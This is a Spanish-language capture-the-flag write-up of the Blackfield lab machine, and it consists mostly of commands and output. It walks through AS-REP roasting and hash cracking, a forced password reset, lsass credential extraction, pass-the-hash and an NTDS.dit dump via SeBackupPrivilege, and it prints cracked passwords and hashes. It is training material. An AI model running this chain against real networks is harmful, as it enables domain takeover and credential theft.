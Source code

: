 
Primero hacemos un scaneo de puertos con nmap, salen los tipicos de windows de directorio activo (smb, ldap, kerberos, rpc...)
```bash
└─$ nmap -sCV 10.10.10.192 -p- --open -vvv -Pn -n
PORT     STATE    SERVICE       REASON      VERSION
88/tcp   open     kerberos-sec  syn-ack     Microsoft Windows Kerberos (server time: 2024-02-05 17:44:06Z)
135/tcp  open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp  filtered netbios-ssn   no-response
389/tcp  open     ldap          syn-ack     Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds? syn-ack
593/tcp  open     ncacn_http    syn-ack     Microsoft Windows RPC over HTTP 1.0
5985/tcp open     http          syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Ahora con smb haremos un pequeño reconocimiento de sistema operativo y el nombre de dominio, nos sale "Blackfield.local", que 
incluiremos en el `/etc/hosts` asociado a su IP (`sudo echo -e "10.10.10.192\tblackfield.local" >> /etc/hosts`)
```bash
└─$ nxc smb 10.10.10.192
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
```
Con ldap, tambien podemos conseguir dicha información. Vemos que necesitamos credenciales.
```bash
└─$ ldapsearch -H ldap://10.10.10.192 -x -s base namingcontexts | grep -v "#"  
namingcontexts: DC=BLACKFIELD,DC=local
(...)

└─$ ldapsearch -H ldap://10.10.10.192 -x -b "DC=BLACKFIELD,DC=local" | grep -v "#"
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563
```

Probamos a enumerar smb, no esta habilitada la null session (porque es un windows 10 y se desactivó) pero si está la 
guest session (invitado). Vemos que hay un tenemos acceso a "IPC$" (nunca suele haber nada interesante) y a "profiles$"
Dentro de profiles encontramos un montón de directorios con 0 archivos. Aún así al ser nombres nos será de utilidad para
obtener una lista de usaurios posibles.
```bash
└─$ nxc smb 10.10.10.192 -u "" -p "" --shares
(...)
SMB         10.10.10.192    445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED

└─$ nxc smb 10.10.10.192 -u "guest" -p "" --shares
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share

└─$ smbclient //10.10.10.192/forensic -U "guest%" -c "dir"
NT_STATUS_ACCESS_DENIED listing \*

└─$ smbclient //10.10.10.192/profiles$ -U "guest%" -c "dir"
  .                                   D        0  Wed Jun  3 18:47:12 2020
  ..                                  D        0  Wed Jun  3 18:47:12 2020
  AAlleni                             D        0  Wed Jun  3 18:47:11 2020
  ABarteski                           D        0  Wed Jun  3 18:47:11 2020
  (...)

└─$ smbclient //10.10.10.192/profiles$ -U "guest%" -c "dir" | awk '{print $1}' | grep -vE "^\.|[0-9]" > users.txt
```

Mediante kerberos, le pasamos esa lista a la herramienta kerbrute y tras un rato nos saca tres usaurios posibles que meteremos en "valid users". Al ser un catch de flag, vemos que de todos los usuarios que había, solo han salido validos los que tienen nombres en minusculas ("audit2020" si, "ABarteski" no). Con Impacket-GetNPUsers obtenemos el hash de uno de esos usarios 
por medio de kerberoasting (support)
```bash
└─$ kerbrute userenum --dc 10.10.10.192 -d blackfield.local users.txt
2024/02/05 12:11:45 >  [+] VALID USERNAME:	audit2020@blackfield.local
2024/02/05 12:13:43 >  [+] VALID USERNAME:	svc_backup@blackfield.local
2024/02/05 12:13:43 >  [+] VALID USERNAME:	support@blackfield.local

└─$ echo -e "audit2020\nsvc_backup\nsupport" > valid_users.txt

└─$ impacket-GetNPUsers blackfield.local/ -dc-ip 10.10.10.192 -no-pass -usersfile valid_users.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:5028b4ba0968f776d68aed9905bf2b62$a9a524f503b3dc095c095b72f6af17736a53150810d49ade400d90e0e8e7c12a4a3caac3f643edca17f22a6bffba2d573b392fb94858e3b3cf6874f3e57d28adaa2ec6f594d580b6c58f96b3d488d482b24b00b8b78f107de0843ce5aba29be697b2b5d3263f4c4716104f10afeae7b38992009161f5e9da1fe400438c0a6c4cd3eeb02c51a2e3cd5d33c4a87827b14101a50774cc6ae16c1179af235e7116af125c8f7599dda79fa70483b0c9a074ad42d19d6292dd02453a95a9b61237d96bd831e76c9fcc7945d6a402152bec92378eec8eba225e72177ece60528576fba74cf02affc8153f4d4b06fad8205977f7e0838e96
```
Copiamos el hash en el archivo `hash`
```bash
└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
(...)

└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt  --show
$krb5asrep$23$support@BLACKFIELD.LOCAL:8713342...:#00^BlackKnight
```
Ahora al tener credenciales, podemos por ejemplo obtener mas información por ldap (con ldapdomaindump o bloodhound-python
ya que ldapseach devuelve mas de 20000 lineas de output). En este caso optamos por bloodhound y los archivos ".json" que
genere, los metemos en "info.zip" (`zip info.zip *.json`), el cual subiremos a la herramienta bloodhound (ya sabemos, para ejecutarlo es `sudo neo4j console` y `bloodhound &> &; disown`)

```bash
└─$ bloodhound-python -u 'support' -p "#00^BlackKnight" -ns 10.10.10.192 -d blackfield.local -c all
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.blackfield.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 316 users
```
Vemos que support tiene el derecho (ACL) de `Force-ChangePassword` sobre "audit2020". La manera de explotar esta ACL desde fuera
de la máquina es por rpcclient con el comando `'setuserinfo2 <usaurios> 23 <contraseña>'`. Comprobamos con nxc si las 
credenciales han cambiado y sí.
```bash
└─$ rpcclient -U "support%#00^BlackKnight" 10.10.10.192 -c 'setuserinfo2 audit2020 23 pass123!'

└─$ nxc smb 10.10.10.192 -u audit2020 -p pass123!
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:pass123!
```

No podemos conectarnos por Win-rm porque no esta en el grupo `Remote-Management-Users` pero si podemos acceder a nuevos recursos
por SMB, En este caso "forensic", el cual tiene una carpeta llamada "memory-analysis"
```bash
└─$ nxc smb 10.10.10.192 -u audit2020 -p pass123! --shares | grep "READ"
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 

└─$ smbclient //10.10.10.192/forensic -U 'audit2020%pass123!'
smb: \> dir
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020
smb: \> dir memory_analysis\
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
(...)
```
De todos estos archivos, el más comprometido es "lsass" ya que es el proceso que se encarga de almacenar credenciales. 
Si lo unzipeamos, obtenemos el dumpeo de memoria "lsass.DMP", que con `pypykatz` (una version en python y local de mimikatz),
podemos tratar para conseguir hashes.
```bash
└─$ unzip lsass.zip       
Archive:  lsass.zip
  inflating: lsass.DMP

└─$ pypykatz lsa minidump ./lsass.DMP > dump_data
```
Hacemos un filtrado de todos los hashes NTLM y de todos los usuarios. Para obtener dos listas, que bruteforcear con nxc. 
Obtenemos el hash correspondiente al usuario "svc-backup". Podemos hacer un pass the hash con evil-winrm, asi que tenemos
la flag del usaurio.
```bash
└─$ cat dump_data
FILE: ======== ./lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
    == MSV ==
        Username: svc_backup
        Domain: BLACKFIELD
        LM: NA
        NT: 9658d1d1dcd9250115e2205d9f48400d

└─$ cat dump_data | grep "NT" | sort -u | awk '{print $2}' FS=":" | tr -d " " > hashes.txt

└─$ cat dump_data | grep "username" | awk '{print $2}' | sort -u > users2.txt

└─$ nxc winrm 10.10.10.192 -u users2.txt -H hashes.txt | grep "+"
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

└─$ evil-winrm -i 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
<la_flag>

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv
SeBackupPrivilege             Back up files and directories  Enabled
```
Como svc_backup tiene el ACL `SeBackupPrivilege` podemos hacer copias de archivos protegidos aunque no tengamos derechos sobre
ellos (nos saltamos sus ACLs por tanto). Podemos obtener las credenciales de todo el systema, guardandonos con `reg save` 
la clave de registro `system` ("bootkey del sistema")
```bash
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> mkdir C:\Temp

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> cd C:\Temp\

*Evil-WinRM* PS C:\Temp> reg save HKLM\system system
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> download system
```
Luego, para dumpear el NTDS.dit y obtener las credenciales de todo el dominio, tenemos que crear un archivo de instrucciones en 
batch que cree un volumen "z" y sea un alias de (explicar mejor) y con diskshadow, le psasamos esas instrucciones y genera
dicha copia en z: Con robocopy, hacemos una copia del NTDS.dit al directorio actial y lo descargamos.
```bash
└─$ echo -e "set context persistent nowriters \nadd volume c: alias wtf \ncreate \nexpose %wtf% z: " > instructions.txt

*Evil-WinRM* PS C:\Temp> upload instructions.txt

*Evil-WinRM* PS C:\Temp> diskshadow.exe /s C:\Temp\instructions.txt
(...)
The shadow copy was successfully exposed as z:\.

*Evil-WinRM* PS C:\Temp> robocopy /b z:\WIndows\NTDS\ . ntds.dit

*Evil-WinRM* PS C:\Temp> download ntds.dit
```

Con secretsdump, ya tenemos lo necesario para obtener los hashes de todos los usuarios del dominio.
```bash
└─$ impacket-secretsdump -system system -ntds ntds.dit LOCAL > hashes

└─$ cat hashes | grep "Administrator"
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::

└─$ evil-winrm -i 10.10.10.192 -u 'Administrator' -H 184fb5e5178480be64824d4cd53b99ee
```
